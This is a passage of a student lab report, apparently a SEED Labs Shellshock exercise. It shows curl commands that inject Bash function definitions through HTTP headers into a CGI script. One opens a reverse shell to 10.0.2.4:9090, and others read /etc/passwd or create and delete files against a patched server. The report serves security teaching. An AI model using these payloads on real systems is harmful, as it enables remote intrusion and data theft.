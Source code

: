 ```bash
03/12/22]seed@VM:~/.../ssi$ curl -H "Accept: () { echo hello ; } ; echo Content_type: text/plain; echo; /bin/bash -i > /dev/tcp/10.0.2.4/9090 0<&1 2>&1" http://www.seedlab-shellshock.com/cgi-bin/vul.cgi
```

### Task 5

In this task, we were asked to use the `/bin/bash/` patched shell to issue the attack. By changing the CGI scripts not to use the shellshock vulnerable bash we expect the attack to be unsuccessful. We simply change the `vul.cgi` and `getenv.cgi` scripts' first line to `#!/bin/bash`. 

```bash
[03/12/22]seed@VM:~/.../ssi$ curl -H "User-Agent: () { echo hello; } ; echo Content_type: text/plain; echo; /bin/cat /etc/passwd" http://www.seedlab-shellshock.com/cgi-bin/vul.cgi

Hello World
[03/12/22]seed@VM:~/.../ssi$ curl -H "Attack: () { echo hello; } ; echo Content_type: text/plain; echo; /bin/id" http://www.seedlab-shellshock.com/cgi-bin/vul.cgi

Hello World
[03/12/22]seed@VM:~/.../ssi$ curl -H "Attack: () { echo hello; } ; echo Content_type: text/plain; echo; /bin/touch /tmp/hacked.txt" http://www.seedlab-shellshock.com/cgi-bin/vul.cgi

Hello World
[03/12/22]seed@VM:~/.../ssi$ curl -H "Accept: () { echo hello; } ; echo Content_type: text/plain; echo; /bin/rm /tmp/hacked.txt" http://www.seedlab-shellshock.com/cgi-bin/vul.cgi

Hello World
[03/12/22]seed@VM:~/.../ssi$ 
```

As shown, the attacks were not successful and no commands were executed on the server-side.

**Authors (Group 5):**
- Diogo Rodrigues up201806429
- Pedro Azevedo up201603816
- Rui Pinto up201806441